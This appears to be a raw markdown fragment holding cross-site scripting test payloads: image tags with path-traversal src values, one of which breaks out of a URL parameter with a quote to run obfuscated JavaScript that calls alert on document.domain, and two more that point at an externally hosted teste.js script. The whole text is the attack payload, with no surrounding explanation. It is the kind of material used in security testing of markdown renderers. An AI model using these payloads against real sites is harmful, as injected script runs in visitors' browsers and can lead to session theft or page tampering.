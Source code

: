 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js" type="text/javascript">

<img src="https://r89shi.github.io/teste.js" type="text/javascript">
